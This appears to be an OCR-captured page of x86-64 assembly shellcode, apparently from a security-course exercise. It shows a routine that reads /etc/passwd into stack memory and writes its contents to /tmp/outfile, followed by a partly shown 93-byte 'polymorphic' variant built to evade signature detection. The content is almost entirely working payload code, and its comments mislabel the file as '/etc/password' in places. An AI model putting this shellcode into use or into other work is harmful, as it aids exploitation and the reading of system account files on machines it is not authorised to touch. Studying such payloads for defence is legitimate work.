 ```nasm

    ; read(fd, *buffer, 65535)
        mov rbx, rax			; save fd to RBX
        xor rax, rax			; read syscall value
        mov rdi, rbx			; copy fd to RDI
        mov rsi, rsp			; RSI point on top of the stack 
					; (to write /etc/passwd content)
        mov dx, 0xFFFF			; size : 65535 bytes
        syscall				; exec read

    ; open("/tmp/outfile", (O_RDWR, O_CREATE (and I'm not sure), 07777) 
    ;  o146 see /usr/include/x86_64-linux-gnu/bits/fcntl-linux.h
        mov r8, rax			; copy number of bytes read
        mov rax, rsp			; save pointer to /etc/password contents
        xor rbx, rbx
        push rbx			; string terminator
        mov rbx, 0x656c6966		 
        push rbx			; push 'elif'
        mov rbx, 0x74756f2f706d742f
        push rbx			; push 'tuo/pmt/'
        mov rbx, rax			; RBX point to /etc/password contents
        xor rax, rax
        mov al, 2			; open syscall value
        lea rdi, [rsp]			; RDI point to '/tmp/outfile\x00'
        xor rsi, rsi			
        push 0x66
        pop si				; flags O_RDWR, O_CREATE
					; RDX already set 07777
        syscall				; exec open


    ; write("/tmp/outfile", *buf, count)
        mov rdi, rax			; pointer to "/tmp/outfile\x00"
        xor rax, rax
        mov al, 1			; write syscall value
        lea rsi, [rbx]			; RSI point to the memory address value
					; of the /etc/password file, stored in memory 
        xor rdx, rdx
        mov rdx, r8			; copy number of bytes read in /etc/password
					; to RDX the number of bytes to write arguments
        syscall				; exec write
```

Polymorphic version :  
**Size : 93 bytes**
```nasm
    ; open("/etc/password", O_RDONLY)
        xor esi, esi			; RSI O_RDONLY
        mul esi				; RDI, RAX, RDX = 0
        push rax			; string terminator
        mov ecx, 0x64777373		; 'dwss'
        push rcx			
        mov rcx, 0x61702f2f6374652f	; 'ap//cte/
        push rcx
        mov rdi, rsp			; RDI point to "/etc/passwd"
        mov al, 2			; open syscall value
        syscall                  	; exec open

    ; read(fd, *buffer, 65535)
        xchg rsi, rdi			; RSI point to the top of the stack
					; to write data that will be read from fd
        xchg edi, eax			; EDI = file descriptor
        mov eax, edx			; read syscall value
        or dx, 0xFFFF			; count bytes to read
```